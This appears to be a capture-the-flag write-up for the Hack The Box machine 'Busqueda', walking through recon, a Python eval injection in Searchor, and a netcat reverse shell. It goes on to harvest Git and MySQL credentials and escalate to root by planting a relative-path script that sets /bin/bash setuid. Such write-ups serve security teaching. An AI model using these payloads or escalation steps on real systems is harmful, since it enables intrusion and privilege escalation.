# easy - Busqueda

## User flag

Yeah!, let's start with this easy one.

A simple curl tells us something, alright, let's upate the /etc/hosts
```bash
~f➤ curl -I busqueda.htb
HTTP/1.1 302 Found
Date: Thu, 15 Jun 2023 00:53:57 GMT
Server: Apache/2.4.52 (Ubuntu)
Location: http://searcher.htb/
Content-Type: text/html; charset=iso-8859-1
```
Now we've got something:
{{< limg "/i/2023-06-14_20-54.png" "Searcher web page" >}}

A quick look to the HTML source code shows that it uses Flask and uses ArjunSharda/Searchor app:
```bash
~f➤ curl -s searcher.htb | xurls | ag 'flask|github'
https://flask.palletsprojects.com
https://github.com/ArjunSharda/Searchor
```
Also I quickly scanned the machine:
```bash
~f➤ sudo nmap -n -Pn -sV -O -T4 searcher.htb
...
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
...
```
So I've mentioned we had a Git repo for it, well we have there the Exploit PoC for a Reverse Shell and the main app repo too:
```bash
~➤ gh search repos Searchor
Showing 30 of 327945 repositories
NAME                               DESCRIPTION...
ArjunSharda/Searchor               ⚡️ Quick and easy searching tasks in one library...
...
nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection            Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)
...
```

So the Vuln is simple, that app once the user inputs a text string to search something it executes a python `eval` function without propery escaping unintended inputs.

If we inject this we will see our command gets executed: `',__import__('os').system('find . -type f')) #`

{{< limg "/i/2023-06-14_21-27.png" "Injection" >}}

So we just run the script kiddie script and voilá:
```bash
➤ nc -lvnp 55555
Connection from 10.10.11.208:55494
bash: cannot set terminal process group (1640): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ id
id
uid=1000(svc) gid=1000(svc) groups=1000(svc)


svc@busqueda:~$ ls $PWD
ls $PWD
user.txt
```
HTB is not cool anymore :/

## Root flag

I've tried to check git commits, branches, tags, there is nothing. Except for this:
```bash
svc@busqueda:/var/www/app$ cat .git/config | grep url
cat .git/config | grep url
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```

So we have user and password for that HTTP website, Gitea.

{{< limg "/i/2023-06-14_21-46.png" "Gitea" >}}

Nothing interesting is found in the Git tea web app, but we have something in `sudo` (svc user ssh password is the same as cody http password)
```bash
svc@busqueda:~$ sudo -l
[sudo] password for svc:
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Ok, that py script does something, also that `use_pty` might be something for us to exploit:
```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

I've trying that script, turns out that it allow us to interact with docker engine.
```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS             PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   5 months ago   Up About an hour   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   5 months ago   Up About an hour   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config.Env}}' mysql_db
["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"]
```

I wasn't able to SSH or access Mysql with those credentials, but I was able to login into Gitea as administrator.

{{< limg "/i/2023-06-14_22-03.png" "Gitea admin" >}}


So, I reviewed this file: http://gitea.searcher.htb/administrator/scripts/src/branch/main/system-checkup.py

Which is basically running a shell script from a relative path:

{{< limg "/i/2023-06-14_22-19.png" "bug in the code">}}

So all what is needed is just to create a fake full-checkup.sh and make /bin/bash setuid.

```bash
svc@busqueda:~$ cat full-checkup.sh
#!/bin/bash
chmod +s /bin/bash

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:~$ /bin/bash -p
bash-5.1# id
uid=1000(svc) gid=1000(svc) euid=0(root) egid=0(root) groups=0(root),1000(svc)
```
